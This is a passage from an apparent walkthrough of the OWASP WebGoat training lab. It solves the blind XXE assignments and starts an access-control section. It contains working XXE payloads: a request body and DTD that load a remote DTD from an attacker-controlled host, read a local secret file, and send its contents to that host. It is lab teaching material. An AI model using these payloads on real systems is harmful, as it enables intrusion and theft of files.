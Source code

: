 **Request Body**  
```xml
<?xml version="1.0"?>  
<!DOCTYPE root [  
<!ENTITY % remote SYSTEM "http://host:port/files/username/attack.dtd" >  
%remote;  
]>  
<comment>  
<text>test&ping;</text>  
</comment>  
```

7.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) This assignment is more complicated you need to upload the contents of a file to the attackers site (WebWolf in this case)  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) In this case you cannot combine external entities in combination with internal entities.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use parameter entities to perform the attack, see for example: https://www.acunetix.com/blog/articles/xml-external-entity-xxe-limitations/  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) An example DTD can be found here WebGoat/https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/example.dtd, include this DTD in the xml comment  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use for the comment, be aware to replace the url accordingly: <?xml version="1.0"?><!DOCTYPE comment \[<!ENTITY % remote SYSTEM "http://localhost:9090/files/test1234/test.dtd">%remote;\]><comment><text>test&send;</text></comment>

*   Upload **contents\_file.dtd** on **WebWolf**.
*   Open the _Development Tools_ in the browser, and go to the _Network_ tab.
*   On WebGoat, post a comment.
*   Locate the query to `blind` in the _Network_ tab and click on _Edit and Resend_.
*   Edit the body of the query as specified below.

**contents\_file.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://host:port/landing?%file;' >" >%all;
```  
  
**Request Body**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.0.0.M25/XXE/secret.txt" >  
<!ENTITY % dtd SYSTEM "http://host:port/files/username/contents_file.dtd" >  
%dtd;]>  
<comment>  
<text>test&send;</text>  
</comment>
```

![XXE 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-7.png)

#### **(A5) Broken Access Control:**

##### Insecure Direct Object References

2.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Log in first. User Name is tom, password is cat.
